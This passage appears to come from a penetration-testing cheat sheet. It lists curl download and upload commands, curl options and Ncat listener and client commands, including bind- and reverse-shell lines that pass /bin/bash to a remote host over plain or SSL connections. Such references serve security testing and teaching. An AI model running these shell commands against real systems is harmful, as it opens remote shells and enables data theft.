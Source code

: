 ```fundamental
curl somesite.com/somefile.txt -o somefile.txt
```

Upload a file:

```fundamental
curl somesite.com/uploads/ -T somefile.txt
```

| Option | Description |
| --- | --- |
| -d | Sends the specified data in a POST request to the HTTP server |
| -H | Extra header to include in the request when sending HTTP to a server |
| -i | Include the HTTP response headers in the output |
| -k | Proceed and operate server connections otherwise considered insecure |
| -o | Write to file instead of stdout |
| -T | Transfers the specified local file to the remote URL, same as PUT method |
| -v | Make the operation more talkative |
| -x | Use the specified proxy (\[protocol://\]host\[:port\]) |
| -X | Specifies a custom request method to use when communicating with the HTTP server |

Find out how to test a web server for various HTTP methods and method overrides in my project at [ivan-sincek/forbidden](https://github.com/ivan-sincek/forbidden).

### Ncat

\[Server\] Set up a listener:

```fundamental
ncat -nvlp 9000

ncat -nvlp 9000 > received_data.txt

ncat -nvlp 9000 -e /bin/bash

ncat -nvlp 9000 -e /bin/bash --ssl

ncat -nvlp 9000 --ssl-cert crt.pem --ssl-key key.pem

ncat -nvlp 9000 --keep-open <<< "HTTP/1.1 200 OK\r\n\r\n"
```

\[Client\] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl

ncat -nv 192.168.8.5 9000 --ssl-cert crt.pem --ssl-key key.pem
```
